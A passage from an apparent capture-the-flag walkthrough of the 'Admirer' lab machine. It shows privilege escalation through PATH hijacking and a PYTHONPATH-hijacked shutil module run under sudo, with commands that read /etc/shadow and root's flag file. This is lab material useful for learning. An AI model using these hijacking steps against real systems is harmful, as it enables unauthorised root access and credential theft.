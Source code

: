 ok well those `rm` commands are not fully pathed

and .. to be fair, `echo` is a command and isn't path'd either.

but
```
waldo@admirer:~$ cat echo
#!/bin/bash
cat /root/root.txt > /tmp/foo.txt
cat /etc/shadow
cat /root/root.txt
/bin/echo $*
waldo@admirer:~$ PATH=/home/waldo/:$PATH sudo /opt/scripts/admin_tasks.sh
```

isn't getting triggered.

but [https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) points us to `PYTHONPATH` hijacking

```
waldo@admirer:~$ cat /opt/scripts/backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

that looks ripe. copy `shutil.py` and modify `make_archive` to include
```
   os.system("cat /root/root.txt > /tmp/foo.txt")
```

then trigger a backup

```
waldo@admirer:~$ sudo PYTHONPATH=. /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:~$ ls -l /tmp
total 8
-rw-r--r-- 1 root root   33 Sep  4 16:17 foo.txt
drwx------ 2 root root 4096 Sep  3 23:48 vmware-root
```
